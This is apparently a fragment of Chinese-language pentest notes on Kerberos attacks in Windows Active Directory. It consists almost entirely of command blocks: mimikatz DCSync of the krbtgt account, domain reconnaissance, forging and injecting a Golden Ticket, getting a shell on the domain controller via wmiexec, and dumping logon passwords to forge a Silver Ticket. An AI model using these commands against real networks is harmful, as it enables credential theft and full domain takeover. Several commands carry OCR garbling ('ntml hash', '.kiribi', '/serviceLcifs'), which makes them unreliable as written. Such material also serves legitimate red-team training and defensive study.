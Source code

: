 ```
lsadump::dcsync /domain:pentest.com /user:krbtgt
```
- 获取基本信息

```
获取sid
wmic useraccount get name,sid

获取当前用户sid
whoami /user

查询域管理员账号
net group "domain admins" /domain

查询域名
ipconfig /all
```
- 实验

```
清空票据
kerberos::purge

生成票据
kerberos:golden /admin:Administrator /domain:pentest.com /sid:域SID /krbtgt:ntml hash /ticket:Administrator.kiribi

注入内存
kerberos::ptt Administrator.kiribi

检索当前会话中的票据
kerberos::tgt

验证权限
cscript wmiexec.vbs /shell dc
```

#### Silver Ticket(白银票据)

- 收集

```
域名
域SID
目标服务器的FQDN
可利用的服务
服务账号的NTLM Hash
需要伪造的用户名
```

- 实验

```
获取服务账号ntlm hash
mimikatz log "privilege::debug" "sekurlsa::logonpasswords"

清除票据
klist purge

伪造白银票据
kerberos::golden /domain:pentest.com /sid:域SID /target:dc.pentest.com /serviceLcifs /rc4:ntlm hash /user:syst1m /ptt
```
